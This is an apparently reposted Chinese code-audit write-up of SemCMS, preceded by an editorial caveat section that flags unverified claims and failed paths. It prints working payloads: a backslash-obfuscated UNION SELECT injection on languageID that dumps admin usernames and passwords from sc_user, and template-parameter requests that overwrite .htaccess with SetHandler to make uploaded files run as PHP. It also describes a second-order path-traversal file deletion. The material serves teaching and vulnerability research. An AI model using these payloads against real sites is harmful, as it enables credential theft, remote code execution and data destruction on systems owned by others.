## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：publiclanguageIDSQLi; backendpathunknown blocksfullchain; adminMbapp/.htaccess ApachemodPHPAllowOverride,platformpathbehavior;secondorderdelete

- **事实待核（1）**：某CMS目录/标题已可由semcms路径确认产品，应并Semcms。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：mysqliquery不支持堆叠、后台随机路径没找到、index.php注入被过滤失败均有价值负结果，不能把全文写完整前台到RCE。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：.htaccess效果需AllowOverride/FileInfo及modPHP，Linux可跨不存在路径/Windows不可的绝对平台结论需按PHP规范化源码核。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：示例index.php payload用phpinfo():不是常规拼接且本就失败，必须标未成功思路。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（5）**：函数清单把escapeshellarg/escapeshellcmd列命令执行误导，它们只是转义；preg_replace仅特定旧/e才代码执行。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **操作与副作用边界（6）**：前台langSQL与399/402家族、后台二阶delete应拆多原语保留，缺版本/补丁。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 某 CMS 漏洞合集

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qxk2PWidYZMkEmDTH0XQTA)

0x00 前言
-------

  因为与这个 CMS 挺有缘份的，故花了点时间看了下代码，发现这个 CMS 非常适合入门代码审计的人去学习，因为代码简单且漏洞成因经典，对一些新手有学习价值，故作了此次分享。

0x01 前台注入
---------

从入口开始:`/semcms/Templete/default/Include/index.php`



跟进`web_inc.php`, 首先包含  

1)`db_conn.php`: 建立与数据库的连接, 代码量很少也很简单。



2)`contorl.php`: 对`$_GET`进行全局过滤危险的 SQL 函数。  



这个过滤从最简单的角度来说，即 mysql<8 的情况下，把`select`禁用了，其实就没办法进行跨表查询，SQL 利用造成危害的可能性会大大降低，当然这是一种直接且无需考虑用户体验为原则的暴力做法，点到为止吧。  

回到`web_inc.php`, 继续阅读，后面吸引我的地方，在于 89 line 一处`SQL`语句的地方。



可以看到`$Language`没有单引号，直接拼接到语句中，且值由 POST 方式传递，不过这里经过了`verify_str`函数，导致我没有办法利用`select`进行子查询，获取到`sc_user`表的后台管理员用户密码，那么事实真的如此么？  

```
$Language=test_input(verify_str($_POST["languageID"]));


```

经过`verify_str`函数处理后，会传入`test_input`函数，其返回值将会拼接进 SQL 语句中进行查询。



`test_input`里面有个有趣的函数`stripslashes`, 函数的作用就是用于去除反斜杠，举个如图例子  



那么绕过`verify_str`思路就水到渠成了。  



**分析下 payload 的原理**  

```
languageID=-1 uni\on sel\ect 1,concat(user_admin,0x2d,user_ps),3,4,5,6,7,8,9,10,11,12,13,14 from sc_user


```

`un\ion`&&`sel\ect`绕过了`verify_str`函数的正则匹配，经过`test_input`的`stripslashes`去掉反斜杠，最终拼接到数据库中执行的语句，实际上


返回的后台管理员的账号密码信息到`$tag_indexmetatit`变量中。  



并经过`if`判断传递给`$indextitle`变量，最终直接被`echo`到返回包。  

```
if (empty($tag_indexmetatit)){$indextitle=$tag_indexkey;}else{$indextitle=$tag_indexmetatit;}
      if (empty($tag_prometatit)){$protitle=$tag_prokey;}else{$protitle=$tag_prometatit;}
      if (empty($tag_newmetatit)){$newstitle=$tag_newkey;}else{$newstitle=$tag_newmetatit;}


```





### 0x1.1 小结

  由于`web_inc.php`是所有前台文件都会包含的，所以说这个注入点在任意前台文件中都可以无条件触发，唯一的区别就是其他文件可能没有回显的地方。当然，同样地基于此绕过原理，还可以找到很多处类似的注入或者其他更为简单且直接的注入点, 这些就留给读者们自己探索。

0x02 寻找后台
---------

  虽然在 0x01 中挖掘到了前台无限制回显的 SQL 注入漏洞, 但因为查询数据库用的是`mysqli`的`query`函数而不是`multi_query`函数, 故注入点并不支持堆叠注入，这直接导致我们少了一条 SQLGetSHell 的道路。值得开心一点的是，我们目前可以通过注入点获取到管理员的账号密码，不过这个 CMS 的后台地址安装时是随机生成的，所以找到后台地址很困难，下面是自己尝试寻找后台的失败过程，很可惜没有突破。

### 0x2.1 失败的过程

`semcms/install/index.php`安装文件有后台地址的生成代码



那么我的思路，就是全局定位`$ht_filename`变量，看看有没有对此进行操作并存储的代码。  



很遗憾，并没有找到对此变量引用的代码。还没到放弃的时候，一般这个时候，我还会额外找找一些其他的办法。  

比如搜索 scandir 函数，该函数作用是列出指定路径中的文件和目录，目的是通过找到类似目录遍历漏洞的点，从而找到后台地址。



继续回溯`TemplateDir`  



可惜的是，发现传入的第一个参数是固定的，故这个思路也断了，暂时没有想到其他的好办法了。  

0x03 GetShell 思路
----------------

  目标 CMS 的代码量并不高，故寻找 GetShell 的思路，可以采用危险函数定位的方法来进行快速排除并在存在漏洞的可疑的地方再进行回溯分析。

### 0x3.1 定位思路

文件包含函数: 流程控制

*   require
    
*   include
    
*   require_once
    
*   include_once
    

文件操作函数: 文件系统函数

*   copy — 拷贝文件
    
*   delete — 参见 unlink 或 unset
    
*   fflush — 将缓冲内容输出到文件
    
*   file_get_contents — 将整个文件读入一个字符串
    
*   file_put_contents — 将一个字符串写入文件
    
*   fputcsv — 将行格式化为 CSV 并写入文件指针
    
*   fputs — fwrite 的别名
    
*   fread — 读取文件（可安全用于二进制文件）
    
*   fscanf — 从文件中格式化输入
    
*   fwrite — 写入文件（可安全用于二进制文件）
    
*   move_uploaded_file — 将上传的文件移动到新位置
    
*   readfile — 输出文件
    
*   rename — 重命名一个文件或目录
    
*   rmdir — 删除目录
    
*   unlink — 删除文件
    

代码注入函数:

*   eval — 把字符串作为 PHP 代码执行
    
*   assert — 检查一个断言是否为 false
    
*   preg_replace — 执行一个正则表达式的搜索和替换
    

命令执行函数: 程序执行函数

*   escapeshellarg — 把字符串转码为可以在 shell 命令里使用的参数
    
*   escapeshellcmd — shell 元字符转义
    
*   exec — 执行一个外部程序
    
*   passthru — 执行外部程序并且显示原始输出
    
*   proc_close — 关闭由 proc_open 打开的进程并且返回进程退出码
    
*   proc_get_status — 获取由 proc_open 函数打开的进程的信息
    
*   proc_nice — 修改当前进程的优先级
    
*   proc_open — 执行一个命令，并且打开用来输入 / 输出的文件指针。
    
*   proc_terminate — 杀除由 proc_open 打开的进程
    
*   shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
    
*   system — 执行外部程序，并且显示输出
    

变量覆盖:

*   extract — 从数组中将变量导入到当前的符号表
    
*   parse_str — 将字符串解析成多个变量
    

### 0x3.1 后台 GetShell

搜索`file_put_contents`函数，只有两个结果，一个是参数写死，故放弃，故只剩这个分析。



写入的文件`$templateUrl`得到的值是固定两种类型。  

```
../index.php  根目录
../.htaccess  根目录


```

```
function Mbapp($mb,$lujin,$mblujin,$dirpaths,$htmlopen){


       if ($htmlopen==1){$ml="j";}else{$ml="d";}

        $template="index.php,hta/".$ml."/.htaccess"; //开始应用模版
 //  1.$template=index.php,hta/j/.htaccess
 //  2.$template=index.php,hta/d/.htaccess
        $template_mb=explode(",",$template);
  //$template_mb 根据,分割为index.php和hta/d/.htaccess的数组

        for($i=0;$i<count($template_mb);$i++){
                            // 获取路径的内容
              $template_o = file_get_contents($mblujin.'Templete/'.$mb.'/Include/'.$template_mb[$i]);
             // ../拼接$template_mb[$i]中的"hta/".$ml."/"字符串替换为空的结果
             // 即得到../.htacess 或者 ../.index.php
              $templateUrl = $lujin.str_replace("hta/".$ml."/","", $template_mb[$i]);
              // 修改$template_o的'<{Template}>'标记为$mb的值
              $output = str_replace('<{Template}>', $mb, $template_o);
              $output = str_replace('<{dirpaths}>', $dirpaths, $output);
          // 将替换的内容写入到$templateUrl指向的文件
          file_put_contents($templateUrl, $output);

           }

}


```

那么这个函数如果`$mb`可控的话，会发生什么问题？

**问题一**

能够修改`semcms/Templete/default/Include/index.php`中的`<{Template}>`的内容



那么可以尝试如下的形式构造 payload:  

```
/semcms/N8D3ch_Admin/SEMCMS_Template.php?CF=template&mb=default/'.phpinfo():.'/..


```

最终的话会在`semcms/Templete/default/Include/index.php`写入如下图所示。



**问题 2**  

能够修改根目录`.htacess`的内容

与 .htaccess 相关的奇淫技巧

> SetHandler application/x-httpd-php
> 
> 此时当前目录及其子目录下所有文件都会被当做 php 解析。

那么可以尝试如下的形式构造 payload:

```
/semcms/N8D3ch_Admin/SEMCMS_Template.php?CF=template&mb=default/%0aSetHandler%20application/x-httpd-php%0a%23/../..

//这里因为application/x-httpd-php中带有/，所以多需要一个../进行跳转


```



最终写入的内容:  



那么我们随意上传一个文件，即可当作 PHP 来解析。  

那么`$mb`到底是否可控呢？回溯`Mbapp`函数的上层调用，可以发现可以通过`$_GET['mb']`来控制。



不过因为文件引进`/semcms/Include/contorl.php`，会调用`verify_str`对`$_GET`变量进行过滤。  



很不凑巧，过滤了单引号，导致我们**问题 1** 覆盖的`index.php`的思路直接断了，因为根本没办法逃逸出单引号。  

不过问题 2 的话，倒是可以成功，因为传入的内容并不在`inject_check_sql`的黑名单中，可以成功地覆盖`.htaccess`文件，不过这种方式也是有局限性的，需要 Apahce 是通过 module 的形式加载 PHP 的文件来执行才可以，并且需要在 Linux 环境，因为 window 不支持跨越不存在的路径。

0x04 任意文件删除
-----------

  最后还想额外提一下关于后台的漏洞，便是其中一个任意文件删除漏洞，这个删除点不是直接的点，而是先通过构造需要删除的文件路径存进数据库，再通过触发其他点进行获取，传入`unlink`中进行删除，这种类型笔者称之为二次任意文件删除漏洞，很是经典。

**漏洞演示:**

1) 传入`../rmme.txt`作为图片的路径


2) 选择删除图片后，会删除文件网站根目录下的`rmme.txt`文件  



**成因:**  

(1) 添加 URL 入库的时候，只是做了`test_input`，并没有过滤`..`。



(2) 直接入库  





(3) 删除图片的时候，传入`AID`，获取到`images_url`字段的值`../rmme.txt`传入`Delfile`函数进行删除。



`Delfile`函数先判断文件是否存在，再使用`unlink`删掉文件，全程没有一丁点的过滤，送分题!  



0x05 总结  

----------

  本文直接从一个入口的注入点展开，想找到一条合适的链路到 GetShell 的完整过程，但是遗憾的是，没能解决 6 位随机后台地址的问题，故实际利用起来的话，局限性还是有的，姑且称之为一次分享式的尝试性代码审计体验录吧。

如有侵权，请联系删除


好文推荐


[红队打点评估工具推荐](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247508839&idx=1&sn=abc801070b0e44475887ddbf7273c2e7&chksm=c3087017f47ff901ecb212aadc22c5cbfc6407da79b43a6f48a355cc3fd8c5af79c113db5fd1&scene=21#wechat_redirect)

[干货 | 红队项目日常渗透笔记](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247509256&idx=1&sn=76aad07a0f12d44427ce898a6ab2769e&chksm=c3087678f47fff6e2b750f41514d933390a8f97efef8ed18af7d8fb557500009381cd434ec26&scene=21#wechat_redirect)  

[实战 | 后台 getshell + 提权一把梭](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247508609&idx=1&sn=f3fcd8bf0e75d43e3f26f4eec448671f&chksm=c30871f1f47ff8e74551b09f092f8673890607257f2d39c0efa314d1888a867dc718cc20b7b3&scene=21#wechat_redirect)

[一款漏洞查找器（挖漏洞的有力工具）](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247507539&idx=2&sn=317a2c6cab28a61d50b22c07853c9938&chksm=c3080d23f47f8435b31476b13df045abaf358fae484d8fbe1e4dbd2618f682d18ea44d35dccb&scene=21#wechat_redirect)

